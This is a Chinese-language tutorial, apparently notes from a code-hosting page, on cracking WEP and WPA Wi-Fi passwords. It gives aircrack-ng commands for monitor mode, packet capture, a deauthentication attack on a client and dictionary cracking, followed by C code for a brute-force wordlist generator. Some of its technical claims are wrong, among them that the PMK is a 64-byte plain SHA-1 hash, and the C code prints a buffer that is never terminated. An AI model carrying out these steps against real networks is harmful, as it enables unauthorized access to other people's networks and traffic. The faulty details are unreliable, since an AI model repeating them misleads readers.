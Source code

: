 wpa密码叫做PSK（pre-shared key），长度一般是8 - 63字节，它加上ssid通过SHA-1算法可以得到PMK（pairwise master key）。PMK=SHA-1（ssid，psk），PMK的长度是定长的，都是64字节。事先把PMK计算好的工具叫做airlib-ng。

认证的时候会生成一个PTK（pairwise temporary）,这是一组密钥，由参数客户端MAC地址，AP的BSSID、A-NONCE、S-NONCE、PMK，其中A-NONCE和S-NONCE 是两个随机数哈希出来。PTK加上报文数据采用一定的算法（AES或TKIP），得到密文，同时会得到一个签名叫做MIC（message intergrality check）。

四次握手包中含有--客户端MAC，AP-BSSID，A-NONCE，S-NONCE，MIC。最关键的PMK和PTK是不包含在握手包里的！
	
    PSK(pwd) + BSSID---> PMK
    client-MAC、BSSID、A-NONCE、S-NONCE、PMK ---> PTK
    PTK + data ---> MIC

所以截包可以获得的是：MAC，BSSID，A-NONCE，S-NONCE,data 。利用字典计算出MIC，然后和报文中的MIC作比较。
--------------------------------
==wep==
ubuntu中安装aircrack-ng工具集:
    sudo aptitude install aircrack-ng

开启监听模式，会启动6个后台进程，启动监控模式后无线端口是mon0,以后一次累加
    sudo airmon-ng start wlan0	

不筛选显示所有的AP和他们的客户端
    sudo airodump-ng mon0

筛选相应对的报文,一定要抓取到若干万的iv对
    sudo airodump-ng mon0 --ivs --bssid EC:17:2F:F2:D7:B6 -w wep       #--ivs只抓取IVs,--bssid指定AP的MAC，-w指定写入的文件

开始破解,可以边抓，边破解
    aircrack-ng 捕获的ivs文件

==wpa==
前两步与wep破解一样，开启监视，抓包（不添加ivs参数）。但是要进行deauth攻击才更有机会抓到握手包
    aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0

如果抓到握手包，airodump页面右上角会显示，WPA handshake：（mac地址）

破解
    aircrack-ng -w dic 捕获的cap文件  #字典文件
-------------------------------------
生成字典文件的程序
```
    #define MINLEN 8
    #define MAXLEN 20
    
    #include <stdio.h>
    #include <stdint.h>
    #include <stdlib.h>
    
    int minlen;
    char crypt[63]="1234567890aAbBcCdDeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxXyYzZ";
    
    void echo(int, char *);
    
    int main(int argc,char *argv[])
    {
    	char *buf;
    	for(minlen=MINLEN;minlen<MAXLEN;minlen++){ 		/* 生成的字符长度可选 */
    		buf = malloc(minlen);
    		echo(0,buf);
    		free(buf);
    	}
    }
    
    void echo(int pos,char *buf)
    {
    	int i;
    	if(pos == minlen - 1){					/* pos ==> 0 - 7 */
    		for(i = 0;i < 62;i++)				/* 相当于最内层的for循环 */
    			printf("%s%c\n",buf,crypt[i]);
    		return;
    	}
    	for(i = 0;i < 62;i++){
    		buf[pos] = crypt[i];
    		echo(pos+1,buf);
    	}
    	return;
    }
```
